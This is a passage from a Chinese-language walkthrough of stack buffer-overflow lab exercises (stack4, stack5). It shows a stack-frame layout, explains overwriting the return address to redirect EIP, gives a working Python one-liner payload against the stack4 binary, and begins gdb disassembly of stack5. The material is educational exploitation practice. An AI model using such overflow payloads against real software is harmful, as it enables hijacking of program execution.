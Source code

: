 ```
-00000010                 db ? ; undefined
-0000000F                 db ? ; undefined
-0000000E                 db ? ; undefined
-0000000D                 db ? ; undefined
-0000000C                 db ? ; undefined
-0000000B                 db ? ; undefined
-0000000A                 db ? ; undefined
-00000009                 db ? ; undefined
-00000008                 db ? ; undefined
-00000007                 db ? ; undefined
-00000006                 db ? ; undefined
-00000005                 db ? ; undefined
-00000004                 db ? ; undefined
-00000003                 db ? ; undefined
-00000002                 db ? ; undefined
-00000001                 db ? ; undefined
+00000000  s              db 4 dup(?)
+00000004  r              db 4 dup(?)
```

其中 48处的s是指字符数组s，00处的s指保存在栈上的寄存器，r指的是返回地址，我们的目标就是覆盖返回地址，使函数在执行ret指令时，将我们覆盖的返回地址的值pop弹出到eip，从而改变程序的执行流。
```
$ python -c "print 'a'*(0x48+4) + '\x3b\x84\x04\x08'" | ./stack4
code flow successfully changed
Segmentation fault (core dumped)

```

#### stack5
用gdb打开。
```
$ gdb stack5
GNU gdb (Ubuntu 7.11.1-0ubuntu1~16.5) 7.11.1
Copyright (C) 2016 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from stack5...(no debugging symbols found)...done.
gdb-peda$ disass main
Dump of assembler code for function main:
   0x08048423 <+0>:	lea    ecx,[esp+0x4]
   0x08048427 <+4>:	and    esp,0xfffffff0
   0x0804842a <+7>:	push   DWORD PTR [ecx-0x4]
   0x0804842d <+10>:	push   ebp
   0x0804842e <+11>:	mov    ebp,esp
   0x08048430 <+13>:	push   ecx
   0x08048431 <+14>:	sub    esp,0x4
   0x08048434 <+17>:	call   0x804840b <pwnthis>
   0x08048439 <+22>:	mov    eax,0x0
   0x0804843e <+27>:	add    esp,0x4
   0x08048441 <+30>:	pop    ecx
   0x08048442 <+31>:	pop    ebp
   0x08048443 <+32>:	lea    esp,[ecx-0x4]
   0x08048446 <+35>:	ret    
```